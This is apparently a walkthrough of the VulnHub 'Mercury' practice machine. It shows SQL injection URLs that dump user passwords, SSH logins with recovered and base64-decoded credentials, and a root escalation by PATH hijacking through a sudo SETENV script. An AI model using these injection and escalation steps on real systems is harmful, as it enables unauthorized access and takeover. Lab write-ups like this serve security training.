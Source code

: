 # Mercury, VulnHub walkthrough

## SQL injection
### Step 1
```console
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT id from users--/
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT username from users--/
('john',), ('laura',), ('sam',), ('webmaster',))
```
### Step 2
```console
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT password from users--/

 ('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',))
 ```
 ## SSH webmaster, find encoded passwords
```console
cd mecury_proj/
ls
cat notes.txt
 ```
 ## Base64 decode the password
```console
 ┌─[alienum@parrot]─[~/Desktop]
└──╼ $echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```
## SSH linuxmaster
```console
linuxmaster:mercurymeandiameteris4880km

linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
linuxmaster@mercury:~$ echo "/bin/bash" > tail
linuxmaster@mercury:~$ chmod 777 tail
linuxmaster@mercury:~$ export PATH=.:$PATH
linuxmaster@mercury:~$ sudo PATH=$PATH /usr/bin/check_syslog.sh
root@mercury:/home/linuxmaster#
```
